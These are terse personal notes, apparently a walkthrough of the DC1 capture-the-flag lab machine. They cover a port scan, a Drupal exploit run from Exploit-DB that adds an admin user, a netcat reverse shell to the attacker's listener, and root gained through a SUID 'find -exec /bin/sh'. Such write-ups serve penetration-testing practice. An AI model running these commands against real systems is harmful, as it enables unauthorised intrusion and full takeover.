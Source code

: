 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# DC1
# 25/1/2023

----------------------------------------------------
# nmap result / exploitation
----------------------------------------------------
```
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind

drupal is vulnerable
python2 /usr/share/exploitdb/exploits/php/webapps/34992.py -u shub -p shub -t http://192.168.143.193/


then add module for shell
https://www.drupal.org/project/shell/releases/7.x-1.0-beta5


nc -lvnp 6969  
nc -nv 192.168.49.143 6969 -e /bin/bash


find / -perm -u=s -type f 2>/dev/null
find . -exec '/bin/sh' \;
```
